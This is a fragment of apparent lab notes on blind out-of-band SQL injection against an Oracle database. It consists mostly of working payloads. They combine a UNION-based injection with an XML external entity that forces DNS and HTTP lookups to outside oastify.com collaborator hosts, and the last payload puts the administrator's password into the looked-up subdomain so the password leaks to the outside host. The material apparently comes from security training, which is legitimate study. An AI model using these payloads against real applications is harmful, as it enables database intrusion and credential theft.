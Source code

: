 > > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
> > ```
> >
> > DNS Lookup:\
> >
> >
> > ```
> > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
> > ```
> >
> > \
> > \
> > \
> > Payload:
> >
> > ```
> > ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
> > ```
> >
> > The SQL Query:
> >
> > ```
> > SELECT TrackingId FROM tracking WHERE TrackingId = 'UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
> > ```
> >
> > \
> > \
> > Query for username and password:\
> >
> >
> > ```
> > SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
> > ```
> >
> > \
> > Payload:\
> >
> >
> > ```
> > ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
> > ```
> >
> > \
> > \
> > \
> >
